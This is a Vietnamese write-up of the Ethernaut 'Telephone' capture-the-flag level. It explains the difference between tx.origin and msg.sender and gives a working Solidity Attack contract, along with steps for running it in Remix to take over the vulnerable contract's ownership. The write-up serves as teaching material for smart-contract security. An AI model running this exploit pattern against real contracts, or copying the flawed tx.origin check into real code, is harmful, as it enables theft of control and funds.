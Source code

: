 - Bạn cần hiểu rõ một điều `tx.origin` khác với `msg.sender`.
- Nếu bạn gọi function từ một contract A, trong function có có gọi function của contract B, thì `tx.origin` là địa chỉ của bạn còn `msg.sender` là contract A address.
- Kẻ xấu có thể lợi dụng điều này để tấn công một contract bằng cách sử dụng một contract khác để tấn công.
- Trong bài này, ta sẽ viết thêm một contract **Attack** như sau:

```js
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Attack {
  Telephone phone;
  // replace target by your instance address
  address target = 0x7828d70649688ad7fb4fa2b34430e92096b6fb47;

  function Attack() {
      phone = Telephone(target);
  }

  function claimOwnership() public {
      phone.changeOwner(msg.sender);
  }
}
```

- Compile contract này và chạy hàm `claimOwnership` trên Remix, quyền owner sẽ thuộc về bạn.
- Trên chrome console, kiểm tra lại contract owner

```js
await contract.owner()
```

- Submit & all done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## Conclusion

